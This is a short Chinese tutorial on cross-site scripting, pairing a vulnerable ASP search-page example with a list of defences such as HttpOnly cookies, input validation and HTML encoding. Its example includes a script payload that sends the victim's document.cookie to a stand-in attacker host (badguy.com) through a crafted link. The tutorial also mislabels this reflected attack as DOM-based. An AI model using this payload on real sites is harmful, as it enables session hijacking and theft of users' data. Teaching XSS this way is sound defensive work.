 #XSS 跨域脚本攻击(cross-site scripting)
注入攻击的一种，不会对服务器造成任何伤害，通过一些站内正常交互，例如发布评论等提交含有JavaScript内容的文本。
这时如果服务端没有过滤或转义这些脚本，含有JavaScript脚本的内容发布到了页面上，其它用户访问页面的时候就会运行这些脚本。
XSS攻击的主要用于获取用户信息(例如Cookie)、在页面插入内容(例如广告)或流量劫持等。

##攻击场景 Dom-Based XSS
```
    // http://victim.com网站 后台代码
    <html>
    　　<title></title>
    　　<body>
    　　　　Results  for  <%Reequest.QueryString("term")%>
    　　　　...
    　　</body>
    </html>
    // 攻击
    // step1 建立后台用来偷取用户信息
    http://badguy.com
    // step2 发送恶意链接，可以通过邮件 qq等
    http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
    // 这时只要用户点击这个连接，那么生成的页面中就包含可以指向的代码片段
    <script>window.open("http://badguy.com?cookie="+document.cookie)</script>
    // 这个代码自动运行把用户的cookie发送到了攻击者的网站
```

##应对策略
一些高级浏览器会自动拦截XSS攻击但是不能完全拦截。
防治的根本之道是过滤用户的输入，做`encode`处理，将其中的`<`、`>`、`'`、`"`、`;`之类的特殊字符进行编码。
在这方面前端无法测地解决，更多的需要后端进行处理。

1. 将重要的cookie标记为http only,   这样的话Javascript 中的document.cookie语句就不能获取到cookie了.
2. 只允许用户输入我们期望的数据。 例如：　年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。
3. 对数据进行Html Encode 处理
4. 过滤或移除特殊的Html标签， 例如: <script>, <iframe> ,  &lt; for <, &gt; for >, &quot for
5. 过滤JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。